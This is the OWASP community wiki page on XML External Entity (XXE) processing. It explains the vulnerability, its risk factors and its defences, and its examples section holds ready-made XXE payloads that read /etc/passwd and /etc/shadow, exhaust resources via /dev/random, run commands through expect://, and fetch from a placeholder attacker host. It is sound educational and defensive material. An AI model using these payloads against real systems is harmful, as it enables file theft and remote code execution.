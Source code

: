 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tags: vulnerability, XML External Entity (XXE) Processing
auto-migrated: 1

---
```


[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection (OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```

### Disclosing /etc/passwd or other targeted files

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>
<foo>&xxe;</foo>
```


## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend
against XXE attacks is presented in the [XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks - A Compendium of Known Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at OWASP AppSec Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")

